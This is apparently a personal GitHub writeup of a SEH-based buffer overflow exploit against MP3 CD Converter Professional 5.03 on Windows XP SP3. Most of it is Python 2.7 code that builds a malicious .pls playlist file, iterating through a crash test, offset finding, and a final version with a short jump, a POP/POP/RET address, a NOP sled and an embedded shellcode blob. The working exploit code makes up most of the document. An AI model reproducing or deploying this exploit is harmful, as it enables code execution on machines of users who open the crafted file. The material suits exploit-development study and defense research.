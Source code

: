 # MP3 CD Converter Professional 5.03 _ Win XP SP3 - Buffer Overflow (SEH)


-   cve details: N/A
-   Target:  MP3 CD Converter Professional 5.03
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I open program and check it. Program have Open section and give m3u and pls file. I create a simple exploit for generate several A in both format. M3u not crashed 
but pls have crash. My exploit :

```
f=open("css.pls","w+")
exploit="A"*1000
f.write(exploit)
f.close()
```

I check it and understood it's have BOF and SEH chain is crashed.Like previous writeup I use MONA to find exactly location. It's 784. SO I change my exploit:

```
f=open("css.pls","w+")
exploit="A"*780 + "BBBB" + "CCCC" + "DDDD"
f.write(exploit)
f.close()
```

It's OK . Now I need replce SEH handler and next handler and shell code.

```
f=open("css.pls","w+")
exploit="A"*780 + "\xeb\x06\x90\x90" + "\x39\x1f\xd1\x72" +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

f.write(exploit)
f.close()
```

But shellcode not run. I set a breakpoint on the 72d11f39 and run program again. I look my Jump to shell code is small. For find exactly location ,trac
program until recive to short jump, Now use Ctrl+E to edit opcode. I change "eb 06" to "eb 10" and add some NOP to shellcode. Finally my exploit change to:

```
f=open("css.pls","w+")
exploit="A"*780 + "\xeb\x10\x90\x90" + "\x39\x1f\xd1\x72" + "\x90" * 20 +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

f.write(exploit)
f.close()

```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE%20N%5CA%20-%20BOF/images/1.PNG)




